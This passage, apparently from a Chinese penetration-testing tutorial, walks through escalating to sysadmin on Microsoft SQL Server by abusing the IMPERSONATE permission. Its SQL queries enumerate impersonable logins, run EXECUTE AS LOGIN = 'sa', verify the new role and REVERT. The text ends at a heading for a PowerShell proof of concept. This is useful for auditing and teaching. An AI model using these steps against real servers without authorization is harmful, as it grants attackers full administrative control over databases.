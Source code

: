     SELECT distinct b.name
    FROM sys.server_permissions a
    INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
    WHERE a.permission_name = 'IMPERSONATE'

![4.png](./resource/Mssql模拟登录提权/media/rId29.png)

这里我们可以看到MyUser1用户可以模拟登录sa,MyUser2,MyUser2用户，接下来就是模拟登录sa来获取sysadmin权限了

#### 4.模拟SQL Server用户登陆

    -- 验证是否为sysadmin权限
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')
    -- 模拟sa登录
    EXECUTE AS LOGIN = 'sa'
    -- 验证是否为sysadmin权限
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')

![5.png](./resource/Mssql模拟登录提权/media/rId31.png)

可以看到，第二个查询之后我们已经是sysadmin的权限了

我们再用查看登录用户来验证下

    SELECT * FROM master.sys.sysusers
    WHERE islogin = 1

模拟sa登录之前

![6.png](./resource/Mssql模拟登录提权/media/rId32.png)

模拟sa登录之后

![7.png](./resource/Mssql模拟登录提权/media/rId33.png)

权限高了，可以看到更多的用户登录

#### 5.回到原来的登录

    REVERT
    SELECT SYSTEM_USER
    SELECT IS_SRVROLEMEMBER('sysadmin')

![8.png](./resource/Mssql模拟登录提权/media/rId35.png)

这样我们又回到myuser1用户登录的会话了

0x03 工具化
-----------

> 当然这个也可以用powershell一键实现

### poc
